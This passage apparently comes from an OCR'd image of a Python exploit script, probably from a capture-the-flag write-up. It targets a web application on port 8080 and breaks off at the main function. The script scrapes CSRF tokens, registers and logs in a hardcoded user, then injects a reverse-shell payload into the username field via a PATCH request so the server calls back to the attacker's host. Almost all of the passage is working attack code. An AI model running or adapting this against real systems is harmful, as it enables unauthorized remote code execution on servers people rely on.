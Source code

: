 ```py
    # Make the request to get csrf token
    login_url = 'http://' + rhost + ':8080'
    csrf_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = csrf_page.text.find("csrf-token")
    # Get only the csrfMagicToken in it
    csrf_token = csrf_page.text[index:index+128].split('"')[2]
    return csrf_token
    
# Function to get user ID profile
def getUserId(rhost):
    # Make csrfMagicToken global
    global userid
    # Make the request to get csrf token
    login_url = 'http://' + rhost + ':8080'
    userid_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = userid_page.text.find("users")
    # Get only the csrfMagicToken in it
    userid = userid_page.text[index:index+20].split('"')[0].split('/')[1]
    
# Function to create a user to be exploited on the server
def createUser(rhost):
    url = "http://%s:8080/users" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    getCSRFToken(rhost)
    data = {"utf8": "\xe2\x9c\x93", "authenticity_token": "%s" %csrf_token, "user[username]": "0x4rt3mis", "user[email]": "0x4rt3mis@email.com", "user[password]": "123456", "commit": "Create User"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    
# Function to login
def loginRequest(rhost):
    print("[+] Let's login !! [+]")
    url = "http://%s:8080/login" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    getCSRFToken(rhost)
    data = {"utf8": "\xe2\x9c\x93", "authenticity_token": "%s" %csrf_token, "session[email]": "0x4rt3mis@email.com", "session[password]": "123456", "commit": "Log in"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies, allow_redirects=True)
    print("[+] Logged in, let's procced !!!! [+]")
    
# Now let's login and send the payload
def sendPayload(rhost,lhost,lport):
    print("[+] Now, let's send the payload !!! [+]")
    # Let's get the userid to change it
    getUserId(rhost)
    # Let's change it and get the reverse shell
    csrf_rhost= "http://" + rhost + ":8080" + "/users/" + userid + "/edit"
    response = r.get(csrf_rhost, proxies=proxies, cookies=r.cookies)
    soup = BeautifulSoup(response.text, 'lxml')
    csrf_token_id = soup.select_one('meta[name="csrf-token"]')['content']
    # Now let's change it
    csrf_token_id_url = urllib.parse.quote(csrf_token_id, safe='')
    rhost = "http://" + rhost + ":8080" + "/users/" + userid
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data_pay = '_method=patch&authenticity_token=' + csrf_token_id_url + '&user%5Busername%5D=' + pay_reverse + '&commit=Update+User'
    r.post(rhost, headers=headers, cookies=r.cookies, data=data_pay, proxies=proxies)
    print("[+] Now, just trigger it!!!! [+]")

def main():
    # Parse Arguments
```